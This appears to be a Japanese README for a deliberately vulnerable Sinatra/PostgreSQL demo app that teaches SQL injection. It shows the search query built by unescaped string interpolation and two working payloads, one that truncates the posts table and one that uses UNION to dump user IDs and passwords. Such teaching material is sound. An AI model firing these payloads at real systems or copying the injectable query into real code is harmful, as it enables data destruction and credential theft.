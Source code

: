 # sql_injection

１．sql-injection.sqlファイルのsqlを実行してデータベース環境を構築して下さい。

２．データベース接続の設定を適宜編集して下さい。(デフォルトではpostgreSQLを使用)

## SQLインジェクションの内容
app.rbの検索フォームSQL文  
`select title, content, date from posts where title like '%#{params[:search]}%' or content like '%#{params[:search]}%`

### テーブルのデータをすべて削除する
`'; truncate table posts; --`

以下のようにSQL文として解釈されてしまう  
`select title, content, date from posts where title like '%'; truncate table posts; --%' or content like '%#{params[:search]}%'`

### ユーザーIDとパスワードを表示する
`' union select userid, password, current_date from users; --`

以下のようにSQL文として解釈されてしまう  
`select title, content, date from posts where title like '%' union select userid, password, current_date from users; --%' or content like '%#{params[:search]}%'`

## gem
- sinatra  
- pg  
